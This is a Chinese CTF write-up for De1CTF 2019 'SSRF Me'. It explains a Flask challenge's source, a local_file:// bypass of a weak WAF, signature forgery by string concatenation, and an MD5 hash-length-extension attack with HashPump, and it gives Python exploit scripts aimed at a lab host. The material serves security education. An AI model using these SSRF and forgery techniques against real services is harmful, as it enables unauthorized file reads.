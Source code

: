 ## 0x03 [De1CTF 2019]SSRF Me

靶机首页就是源码

Hint:提示flag is in ./flag.txt

所以我们得想办法读取这个文件,首先看有哪几个路由，分别有什么用

```python
#generate Sign For Action Scan. 为scan创建一个标志?
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

#核心功能 传参执行Task.Exec()并输出
@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

#首页展示源码...
@app.route('/')
def index():
    return open("code.txt","r").read()
```

看一下调用的类

```python
class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr 利用md5对ip进行了限制“只能”访问外网
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:#如果是action是scan,就往路径下的/result.txt写东西
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:#如果是action是read,就往路径下的/result.txt读
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):#检查签名
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False
```

可以看到有一些校验和waf拦截

还是先继续看核心功能代码

```python
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"
```

显然我们要在这个param里面注类似”file:flag.txt“来拿到flag

但是被waf给拦了

```python
def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False
```

gopher也不能用

但是这里只过滤了file没有过滤local_file，或者也可以直接flag.txt

参考：https://bugs.python.org/issue35907

>  这里是使用的 urllib.urlopen(param) 去包含的文件，所以可以直接加上文件路径 `flag.txt` 或 `./flag.txt` 去访问，也可以使用类似的 `file:///app/flag.txt` 去访问，但是 `file` 关键字在黑名单里，可以使用 `local_file` 代替
>
>  https://xz.aliyun.com/t/5927#toc-3

所以我们可以用``local_file:///proc/self/cwd/flag.txt``来访问

然后在action里``scan+read``就可以读文件了

执行还需要签名满足

``getSign(self.action, self.param) == self.sign``

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

因为secret_key是未知的，我们必须先调用geneSign去拿到签名，但该函数限定了action为``scan``怎么办？

注意到这个是字符串直接拼一起的，

所以我们一开始调用

```
local_file:///proc/self/cwd/flag.txtread
```

就可以拿到对应的签名了

先写一个Exp框架

```python
#coding=utf-8
import requests

conn = requests.session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"

def geneSign(param):
    param = {
        "param": param,
    }
    resp = conn.get(url+"./geneSign",param=param).text
    print resp
    return resp
def challenge(action,param,sign):
    param = {
        "param":param,
    }
    cookie = {
        "action": action,
        "sign": sign,
    }
    resp = conn.get(url+"/De1ta",param=param,cookie=cookie)
    print resp
    return resp
```

第二个绕开sign限制的方法还是挺有意思的,利用哈希扩展攻击

利用条件：

1. 我们要知道salt（只能是前缀）的长度。
2. 要知道任意一个由salt加密后的md5值，并且知道没有加盐的明文。
3. 用户可以提交md5值。

这里的salt就是secret_key+filename

工具Hashpump

```bash
root@EDI:~/HashPump#  hashpump
Input Signature: f173c63af1a6be383330bb97d7714446
Input Data: scan
Input Key Length: 24
Input Data to Add: read
3ff498706cc3cfef41b86e94343ebe97
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

注意要将\x80等字符转换为URL编码，否则会报400错误

Exp2:

```
#coding=utf-8
import requests
conn = requests.Session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"
def geneSign(param):
    data = {
        "param": param
    }
    resp = conn.get(url+"/geneSign",params=data).text
    print resp
    return resp

def challenge(action,param,sign):
    cookie={
        "action":action,
        "sign":sign
    }
    params={
        "param":param
    }
    resp = conn.get(url+"/De1ta",params=params,cookies=cookie).text
    return resp

filename = "flag.txt" #长度为8 +16位的key 24位
payload = "scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read"
sign = "3ff498706cc3cfef41b86e94343ebe97"
print challenge(payload,filename,sign)
```

### 参考资料

[https://www.cnblogs.com/20175211lyz/p/11440316.html](https://www.cnblogs.com/20175211lyz/p/11440316.html)